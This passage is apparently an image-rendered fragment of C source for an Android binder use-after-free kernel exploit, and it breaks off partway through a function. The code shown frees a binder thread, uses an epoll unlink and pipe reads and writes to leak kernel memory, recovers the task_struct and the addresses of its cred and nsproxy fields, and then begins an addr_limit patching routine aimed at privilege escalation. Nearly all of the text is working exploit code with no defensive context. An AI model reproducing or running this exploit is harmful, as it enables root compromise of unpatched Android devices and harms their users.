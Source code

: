 ```c

    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }

        exit(EXIT_SUCCESS);

    }

    printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
    if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
    
}


void PatchAddrLimit(){
    int sock_fd[2] = {0};
    ssize_t nBytesWritten = 0;
    struct msghdr message = {nullptr};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};

```